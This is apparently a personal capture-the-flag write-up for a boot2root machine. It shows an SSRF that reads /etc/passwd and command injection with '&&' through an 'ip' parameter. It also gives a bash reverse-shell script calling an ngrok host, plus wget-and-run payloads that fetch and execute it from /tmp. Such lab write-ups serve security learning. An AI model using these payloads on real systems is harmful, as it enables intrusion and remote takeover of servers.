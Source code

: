 
2024-11-05 20:23

Source: #Boot2root 

Nmap scan the IP
Directory Bursting on Website
### SSRF on /status/index.php

in the captured burp suite request we have an IP field 
on changing the ip field we get `etc/passwd` in return 
```
ip=file:///etc/passwd
```
### RCE via SSRF

change the IP field to the following
```
ip=file:///proc/self/cwd/index.php
```

this will get the index.php, now decode this from html encoding
There is some sanitization to avoid RCE, but by using `&&` , we can still execute commands and bypass the sanitization. payload (I had urlencoded the &): 
```
ip=file:///etc/passwd&&id&&
```

#### Gaining foothold

I used ngrok to gain a foothold on the punisher user, and for the rest of the lateral movement, I used the CTF server itself. 
I used ngrok to expose my local port to the internet so that I could upload a shell code file onto the server

```sh
cat shell.sh
bash -c 'bash -i >& /dev/tcp/0.tcp.in.ngrok.io/16004 0>&1'
```

Uploaded this file on server using wget at /tmp/shell.sh
```sh
# File uploaded on the server 
ip=file:///etc/passwd&&wget http://0.tcp.in.ngrok.io:16004/
shell.sh -O /tmp/shell.sh&&

# Executed the /tmp/shell.sh file 
ip=file:///etc/passwd&&bash /tmp/shell.sh&&
```


### References
 ISH CTF - Shivam